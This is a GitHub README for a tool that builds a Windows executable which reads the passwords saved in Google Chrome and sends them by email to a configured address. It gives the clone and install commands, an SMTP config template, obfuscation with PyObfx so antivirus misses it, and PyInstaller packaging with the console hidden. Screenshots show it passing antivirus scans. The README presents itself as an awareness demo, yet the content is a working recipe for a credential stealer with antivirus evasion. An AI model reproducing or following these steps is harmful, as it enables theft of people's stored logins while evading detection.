 [中文](./README.md) | [English](./README_EN.md)

# InfoSec GoogleChrome

## 1 Introduction

The source code of this repository is modified based on ohyicong and is mainly used to demonstrate the packaging of a program that cannot be detected by antivirus software, stealing passwords saved by users on Google. It reminds everyone to pay attention to information security and the insecurity of saving passwords in Google Chrome.

## 2 Introduction

### 2.1  Environment

* windows
* python3
* Clone the project to your local machine
    ```bash
    git clone https://github.com/lissettecarlr/InfoSec-GoogleChrome.git
    cd InfoSec-GoogleChrome
    ```
* Install dependencies
    ```bash
    pip install -r requirements.txt
    ```
* Install dependencies
    ```bash
    git clone https://github.com/PyObfx/PyObfx.git
    cd PyObfx
    pip install -r requirements.txt
    cd ..
    ```

### 2.2 Configuration

* Create a new secret.yaml file and fill in the email information (to send the obtained data via email)
    ```yaml
        email:
            host : 'Email server address, for example: smtp.163.com'
            user : 'xxx'
            pass : 'If it is a 163 mailbox, enable IMAP/SMTP service in the web version settings to obtain' 
            sender : 'Sender's email'   
            receivers : 'Receiver's email (can be the same as the sender's email)'
    ```    
* Modify the config file to configure whether to send emails and whether to save to a local json file:
    ```yaml
        include : secret.yaml

        output:
        json: 'ON'
        email: 'ON'
    ``

### 2.3 Packaging    
* Obfuscate the code
    ```bash
    python ./PyObfx/PyObfx.py decrypt_chrome_passwords.py
    ```

* Modify (missed by the obfuscator)
    ```python
    #  Example missed by the obfuscation, modify according to your yaml alias, as follows
    oYRvAuKk = mQaPXiYD.load(DA, Loader=yaml.Loader)
    import yaml as mQaPXiYD
    oYRvAuKk = mQaPXiYD.load(DA, Loader=mQaPXiYD.Loader)
    ```

* Package it into an exe file and generate the exe file in the dist directory
    ```bash
    pyinstaller -F --add-data "config.yaml;." --add-data "secret.yaml;." .\decrypt_chrome_passwords_obfx.py --noconsole
    ```

### 2.4 Result

If json and email in the config are enabled, executing the exe will generate output.json in the current directory.
```json
[
    {
        "url": "http://192.168.2.1/cgi-bin/luci/",
        "username": "root",
        "p": "testtest"
    }
]
```

Then you will receive an email:

![邮件](./file/1.png)

The number of items listed above depends on the number of password entries you have saved in Google Chrome. I added a temporary entry here, so there is only one entry.


## 3 Antivirus

* Huorong Security
    ![火绒](./file/2.gif)

* Also found an online virus scan tool
    ![查毒](./file/3.png)


